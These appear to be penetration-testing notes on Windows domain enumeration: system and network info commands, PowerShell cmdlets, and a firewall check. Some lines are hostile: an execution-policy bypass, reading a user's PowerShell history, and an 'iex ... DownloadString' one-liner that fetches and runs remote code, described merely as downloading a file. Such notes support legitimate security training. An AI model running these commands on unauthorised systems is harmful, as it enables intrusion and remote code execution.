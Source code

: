       - [Computer Search](#Computer\Search)
      - [Wildcard Search](#Wildcard\Search)
      - [Users With Specific Attributes Set (PASSWD_NOTREQD)](#Users\With\Specific\Attributes\Set\(PASSWD_NOTREQD))
      - [Searching for Domain Controllers](#Searching\for\Domain\Controllers)

#### Basic Enumeration Commands
|**Command**|**Result**|
|---|---|
|`hostname`|Prints the PC's Name|
|`[System.Environment]::OSVersion.Version`|Prints out the OS version and revision level|
|`wmic qfe get Caption,Description,HotFixID,InstalledOn`|Prints the patches and hotfixes applied to the host|
|`ipconfig /all`|Prints out network adapter state and configurations|
|`set`|Displays a list of environment variables for the current session (ran from CMD-prompt)|
|`echo %USERDOMAIN%`|Displays the domain name to which the host belongs (ran from CMD-prompt)|
|`echo %logonserver%`|Prints out the name of the Domain controller the host checks in with (ran from CMD-prompt)|
## Basic Enumeration
1. `hostname`
2. `[System.Environment]::OSVersion.Version`
3. `wmic qfe get Caption,Description,HotFixID,InstalledOn` 
4. `ipconfig /all`

or can all be covered using:
`systeminfo`
### Harnessing Powershell
	CMD-Lets
`Get-Module`
	List the available modules loaded for use
`Get-ExecutionPolicy -List`
	Print the execution policy settings for each scope on a host
`Set-ExecutionPolicy Bypass -Scope Process`
	Change the policy for current process using the -Scope parameter. Doing so will revert the policy once we vacate the process or terminate it. 
`Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt`
	Get the specific users Powershell history

`Get-ChildItem Env: | ft Key,Value`
	Return environment values such as key paths, users, computer information etc.

`powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow on commands>`
	Download a file from a URL.

### Checking Defenses
`netsh advfirewall show allprofiles`
	Firewall check

